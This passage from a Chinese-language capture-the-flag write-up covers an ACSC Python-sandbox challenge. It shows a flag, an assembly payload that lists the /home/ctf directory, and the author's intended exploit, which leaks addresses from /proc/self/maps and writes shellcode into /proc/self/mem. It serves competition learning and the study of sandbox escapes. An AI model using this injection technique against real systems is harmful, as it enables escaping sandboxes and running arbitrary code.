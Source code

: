 ```python
    
r.interactive()

# ACSC{bl4ckL1st_ruL3_1s_4lw4y5_d4ng3r0uS!}
```

a.out 的原始碼為下：

```asm
          global    _start
          section   .text

_start:
    ; open("/home/ctf")
    lea rdi, [home_path]
    mov rsi, 0
    xor rdx, rdx
    mov rax, 2
    syscall

    ; getdirents("/home/ctf")
    mov rdi, rax
    lea rsi, [rsp + 0x100]
    mov rdx, 0x300
    mov rax, 78
    syscall

    mov rdi, 1
    lea rsi, [rsp + 0x100]
    mov rdx, 0x300
    mov rax, 1
    syscall

    mov rdi, 0
    mov rax, 60
    syscall
          section   .data
home_path:  db        "/home/ctf"
```



---

賽後討論區中有許多其他解法可以參考，同時也有其他可以一次執行多行 python code 的作法，包含：

1. 出題者 (ptr-yudai) 預期解 - 透過 `/proc/self/maps` leak address，修改 `/proc/self/mem` 寫 shellcode

```python
code = f"""
all(map(
 lambda fs: [
  fs[1].seek(int(fs[0].read(12),16)+0x18ebb8,0),
  fs[1].write(bytes.fromhex("{shellcode.hex()}")),
  fs[1].flush(),
  input()
 ],
 [(open("/proc/self/maps"), open("/proc/self/mem", "wb"))]
))
""".replace("\n", "")
```
